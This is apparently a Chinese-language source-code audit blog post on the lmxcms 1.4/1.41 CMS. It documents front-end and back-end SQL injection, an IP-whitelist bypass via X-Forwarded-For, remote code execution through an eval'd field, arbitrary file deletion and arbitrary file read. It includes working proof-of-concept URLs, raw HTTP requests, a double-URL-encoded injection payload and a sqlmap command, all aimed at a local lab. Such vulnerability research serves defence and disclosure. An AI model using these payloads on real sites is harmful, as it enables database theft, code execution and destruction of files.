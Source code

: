 ```yaml
---
title: lmxcms1.41源码审计
copyright: true
date: 2022-02-10 14:52:26
tags: 渗透测试
---
```

lmxcms源码审计
<!-- more -->
**1.4前台sql注入漏洞**  
c/index/TagsAction.class.php  
1.构造函数通过_POST方式获取name变量  
2.p函数对数据校验，过滤关键字+addslashes转义  
3.通过delHtml函数（strip_tag函数）去除标签对，进行一次url编码  
4.sql拼接查询   
![1.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/1.png?raw=true)  
![2.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/2.png?raw=true)  
![3.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/3.png?raw=true)  
数据检查后进行了一次urldecode，可以通过两次url编码绕过addslashes函数的转义  
```
poc: 'and (updatexml(1,concat(0x7e,(database()),0x7e),1)) and '1'='1  

两次Urldecode：http://127.0.0.1:8081/lmxcms1.4/index.php?m=tags&a=index&name=%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%37%35%25%37%30%25%36%34%25%36%31%25%37%34%25%36%35%25%37%38%25%36%64%25%36%63%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%36%34%25%36%31%25%37%34%25%36%31%25%36%32%25%36%31%25%37%33%25%36%35%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%63%25%33%31%25%32%39%25%32%39%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%37%25%33%31%25%32%37%25%33%64%25%32%37%25%33%31
```
![4.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/4.png?raw=true)  
lmx1.txt  
```
GET /lmxcms1.4/index.php?m=tags&a=index&name=1 HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=jiit711t06f5plsu8fo7bbqla2; XDEBUG_SESSION=XDEBUG_ECLIPSE
Upgrade-Insecure-Requests: 1
```
sqlmap：  
```
python2 sqlmap.py -r lmx1.txt --technique=E -v3 --tamper=chardoubleencode -p name --dbs
```
<br>
**1.4/1.41后台sql注入漏洞**  
c/index/AcquisiAction.class.class.php  
POST的参数未过滤，但后台本身可以执行sql语句（无回显），此漏洞危害较低  
![5.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/5.png?raw=true)  
```
poc：1' and updatexml(0,concat(0x7e,database()),1) and '1
```
![6.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/6.png?raw=true)  
c/admin/AcquisAction.class.php 中 311行查询时对获取的lid参数未检验，且sql语句直接拼接，导致sql注入  
![7.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/7.png?raw=true)  
![8.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/8.png?raw=true)  
```
Poc: http://127.0.0.1:8081/lmxcms1.4/admin.php?m=Acquisi&a=showCjData&lid=-1+union+select+1,1,1,(select+1+and+(updatexml(1,concat(0x7e,(select+database()),0x7e),1))),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1
```
![9.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/9.png?raw=true)  
<br>
**1.4/1.41绕过ip白名单**  

后台ip白名单可通过X-Forwarded-For 绕过  
![10.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/10.png?raw=true)  
<br>
**1.4/1.41后台任意代码执行**
c/admin/AcquisAction.class.php 中 318行eval执行了$temdata['data']参数，该参数的值是从lmx_cj_list数据表中查询出的array字段的值，而查询时存在sql注入导致该字段可控，从而导致任意代码执行。  
![11.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/11.png?raw=true)  
```
Poc: admin.php?m=Acquisi&a=showCjData&lid=-1+union+select+1,1,1,'1;system(\'ipconfig\');',1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1
```
![12.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/12.png?raw=true)  
<br>
**1.4/1.41 后台任意文件删除**  
c/admin/FileAction.class.php 中使用unlink方法删除文件，unlink方法调用php unlink方法，此处未对传入的路径做检查，存在任意文件删除。  
![13.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/13.png?raw=true)  

poc:  
```
POST /lmxcms1.4/admin.php?m=File&a=delete HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 97
Origin: http://localhost:8081
Connection: close
Referer: http://localhost:8081/lmxcms1.4/admin.php?m=File&a=index&type=0
Upgrade-Insecure-Requests: 1

type=0&delImages=%E5%88%A0%E9%99%A4%E9%80%89%E4%B8%AD%E5%9B%BE%E7%89%87&fid%5B%5D=7#####/test.txt
```
其中test.txt在index.php 同级目录下，且可使用..进行目录穿越。  
<br>
**1.4/1.41 后台任意文件读取**  
c/admin/TemplateAction.class.php  
![14.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/14.png?raw=true)  
![15.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/15.png?raw=true)  
![16.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/16.png?raw=true)  
poc:
```
http://localhost:8081/lmxcms1.4/admin.php?m=Template&a=editfile&dir=../flag.txt
```
